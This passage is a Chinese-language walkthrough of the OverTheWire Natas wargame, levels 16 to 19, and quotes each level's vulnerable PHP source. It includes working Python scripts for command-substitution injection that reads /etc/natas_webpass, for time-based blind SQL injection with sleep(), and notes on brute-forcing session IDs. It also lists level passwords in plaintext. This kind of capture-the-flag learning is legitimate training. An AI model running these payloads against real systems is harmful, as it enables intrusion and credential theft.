### 参考资料

- [What is Blind SQL Injection? Tutorial & Examples | Web Security Academy](https://portswigger.net/web-security/sql-injection/blind)
- [How can I make SQL case sensitive string comparison on MySQL? - Stack Overflow](https://stackoverflow.com/a/5629121/13542937)
- [Usage · sqlmapproject/sqlmap Wiki](https://github.com/sqlmapproject/sqlmap/wiki/Usage)

## Level 16

<table>
<tbody>
  <tr>
    <td>Username</td>
    <td>natas16</td>
  </tr>
</tbody>
<tbody>
  <tr>
    <td>Password</td>
    <td>WaIHEacj63wnNIBROHeqi3p9t0m5nhmh</td>
  </tr>
</tbody>
<tbody>
  <tr>
    <td>URL</td>
    <td>http://natas16.natas.labs.overthewire.org</td>
  </tr>
</tbody>
</table>

- 是 [Level 10](#level-10) 的加强版(—ˋωˊ—)<br>

- 与 [Level 10](#level-10) 的主要区别为多过滤了反引号、单双引号，并且在执行`grep`命令的语句中，使用双引号包裹了`$key`变量
  ```html
  <html>
  <head>
  <!-- This stuff in the header has nothing to do with the level -->
  </head>
  <body>
  <h1>natas16</h1>
  <div id="content">

  For security reasons, we now filter even more on certain characters<br/><br/>
  <form>
  Find words containing: <input name=needle><input type=submit name=submit value=Search><br><br>
  </form>


  Output:
  <pre>
  <?
  $key = "";

  if(array_key_exists("needle", $_REQUEST)) {
      $key = $_REQUEST["needle"];
  }

  if($key != "") {
      if(preg_match('/[;|&`\'"]/',$key)) {
          print "Input contains an illegal character!";
      } else {
          # 无论什么输入都只能作为模式字符串
          passthru("grep -i \"$key\" dictionary.txt");
      }
  }
  ?>
  </pre>

  <div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
  </div>
  </body>
  </html>
  ```
- 还剩下命令替换`$(cmd)`没有被过滤，可使用类似 [Level 15](#level-15) 的方法依次获取下一关口令字符
- 提交`?needle=$(grep -E ^.{n-1}X /etc/natas_webpass/natas17)Allah`，即查看`/etc/natas_webpass/natas17`内字符串的第 *n* 位是否为 *X*，若是，返回值不为空，与其后紧随的单词组合导致无法在`dictionary.txt`查找到该词，返回为空，否则将在 *Output* 处有输出
  ```py
  #!/usr/bin/python
  # -*- coding: UTF-8 -*-

  import requests
  from lxml import etree

  auth_username = 'natas16'
  auth_password = 'WaIHEacj63wnNIBROHeqi3p9t0m5nhmh'
  url = 'http://natas16.natas.labs.overthewire.org/'

  table = '0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz'

  key = ''
  for i in range(1, 33):
      for ch in table:
          res = requests.post(url + '?needle=$(grep -E ^.{%d}%c /etc/natas_webpass/natas17)Allah'%(i - 1, ch), auth = (auth_username, auth_password), headers={'Connection':'close'})
          sqlres = etree.HTML(res.content).xpath('/html/body/div[1]/pre/text()')[0].strip()
          if len(sqlres) == 0:
              key += ch
              break
  print(key)
  ```

## Level 17

<table>
<tbody>
  <tr>
    <td>Username</td>
    <td>natas17</td>
  </tr>
</tbody>
<tbody>
  <tr>
    <td>Password</td>
    <td>8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9cw</td>
  </tr>
</tbody>
<tbody>
  <tr>
    <td>URL</td>
    <td>http://natas17.natas.labs.overthewire.org</td>
  </tr>
</tbody>
</table>

- 前端同 [Level 15](#level-15)，输入用户名，检查该用户是否存在
- 查看源代码，发现查询结果输出部分都被注释掉了
  ```html
  <html>
  <head>
  <!-- This stuff in the header has nothing to do with the level -->
  </head>
  <body>
  <h1>natas17</h1>
  <div id="content">
  <?

  /*
  CREATE TABLE `users` (
    `username` varchar(64) DEFAULT NULL,
    `password` varchar(64) DEFAULT NULL
  );
  */

  if(array_key_exists("username", $_REQUEST)) {
      $link = mysql_connect('localhost', 'natas17', '<censored>');
      mysql_select_db('natas17', $link);

      $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\"";
      if(array_key_exists("debug", $_GET)) {
          echo "Executing query: $query<br>";
      }

      $res = mysql_query($query, $link);
      if($res) {
      if(mysql_num_rows($res) > 0) {
          //echo "This user exists.<br>";
      } else {
          //echo "This user doesn't exist.<br>";
      }
      } else {
          //echo "Error in query.<br>";
      }

      mysql_close($link);
  } else {
  ?>

  <form action="index.php" method="POST">
  Username: <input name="username"><br>
  <input type="submit" value="Check existence" />
  </form>
  <? } ?>
  <div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
  </div>
  </body>
  </html>
  ```
- 可以基于时间延迟进行 SQL 盲注
  ```py
  #!/usr/bin/python
  # -*- coding: UTF-8 -*-

  import requests
  from lxml import etree

  auth_username = 'natas17'
  auth_password = '8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9cw'
  url = 'http://natas17.natas.labs.overthewire.org'

  table = '0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz'

  key = ''
  for i in range(1, 33):
      l, r = 0, 61
      while l <= r:
          mid = (l + r) >> 1
          ch = table[mid]
          while True:
              res = requests.post(url + '/index.php', {'username' : '" UNION SELECT * FROM users WHERE username = "natas18" and ascii(SUBSTRING(password, %d, 1)) >= ascii("%s") and sleep(2)#' % (i, ch)}, auth = (auth_username, auth_password), headers={'Connection':'close'})
              if res.status_code == 200:
                  break
          if res.elapsed.seconds >= 2:
              l = mid + 1
              ans = mid
          else:
              r = mid - 1
      key += table[ans]
  print(key)
  ```

## Level 18

<table>
<tbody>
  <tr>
    <td>Username</td>
    <td>natas18</td>
  </tr>
</tbody>
<tbody>
  <tr>
    <td>Password</td>
    <td>xvKIqDjy4OPv7wCRgDlmj0pFsCsDjhdP</td>
  </tr>
</tbody>
<tbody>
  <tr>
    <td>URL</td>
    <td>http://natas18.natas.labs.overthewire.org</td>
  </tr>
</tbody>
</table>

- 提示需要使用管理员账号登录才能获得下一关口令<br>

- 原本管理员是通过用户名来判断，但由于这种方法不安全，`isValidAdminLogin()`中的关键语句被注释，任何情况下都会返回 0
  ```html
  <html>
  <head>
  <!-- This stuff in the header has nothing to do with the level -->
  </head>
  <body>
  <h1>natas18</h1>
  <div id="content">
  <?

  # 这里有点意思，640 明显很小耶 (ŏωŏ)
  $maxid = 640; // 640 should be enough for everyone

  function isValidAdminLogin() { /* {{{ */
      if($_REQUEST["username"] == "admin") {
      /* This method of authentication appears to be unsafe and has been disabled for now. */
          //return 1;
      }

      return 0;
  }
  /* }}} */
  function isValidID($id) { /* {{{ */
      return is_numeric($id);
  }
  /* }}} */
  function createID($user) { /* {{{ */
      global $maxid;
      return rand(1, $maxid);
  }
  /* }}} */
  function debug($msg) { /* {{{ */
      if(array_key_exists("debug", $_GET)) {
          print "DEBUG: $msg<br>";
      }
  }
  /* }}} */
  function my_session_start() { /* {{{ */
      if(array_key_exists("PHPSESSID", $_COOKIE) and isValidID($_COOKIE["PHPSESSID"])) {
      if(!session_start()) {
          debug("Session start failed");
          return false;
      } else {
          debug("Session start ok");
          if(!array_key_exists("admin", $_SESSION)) {
          debug("Session was old: admin flag set");
          $_SESSION["admin"] = 0; // backwards compatible, secure
          }
          return true;
      }
      }

      return false;
  }
  /* }}} */
  function print_credentials() { /* {{{ */
      if($_SESSION and array_key_exists("admin", $_SESSION) and $_SESSION["admin"] == 1) {
      print "You are an admin. The credentials for the next level are:<br>";
      print "<pre>Username: natas19\n";
      print "Password: <censored></pre>";
      } else {
      print "You are logged in as a regular user. Login as an admin to retrieve credentials for natas19.";
      }
  }
  /* }}} */

  $showform = true;
  if(my_session_start()) {
      print_credentials();
      $showform = false;
  } else {
      if(array_key_exists("username", $_REQUEST) && array_key_exists("password", $_REQUEST)) {
      session_id(createID($_REQUEST["username"]));
      session_start();
      $_SESSION["admin"] = isValidAdminLogin();
      debug("New session started");
      $showform = false;
      print_credentials();
      }
  }

  if($showform) {
  ?>

  <p>
  Please login with your admin account to retrieve credentials for natas19.
  </p>

  <form action="index.php" method="POST">
  Username: <input name="username"><br>
  Password: <input name="password"><br>
  <input type="submit" value="Login" />
  </form>
  <? } ?>
  <div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
  </div>
  </body>
  </html>
  ```
- 用户的 PHPSESSID 是范围在 $[1, 640]$，那么只要暴力找到`admin`的 PHPSESSID 就好了(<ゝωΦ)<br>
<br>


## Level 19

<table>
<tbody>
  <tr>
    <td>Username</td>
    <td>natas19</td>
  </tr>
</tbody>
<tbody>
  <tr>
    <td>Password</td>
    <td>4IwIrekcuZlA9OsjOkoUtwU6lhokCPYs</td>
  </tr>
</tbody>
<tbody>
  <tr>
    <td>URL</td>
    <td>http://natas19.natas.labs.overthewire.org</td>
  </tr>
</tbody>
</table>

- session ID 不再连续了……<br>

- 通过观察发现，新的 PHPSESSID 的格式为`随机1~3位数字 + "-" + 用户名`的 ASCII 码字符串<br>

- 接下来就是暴力枚举 1 至 3 位的随机数字<br>
<br>

- 经过很长一段时间的枚举……(<ゝωΦ)<br>
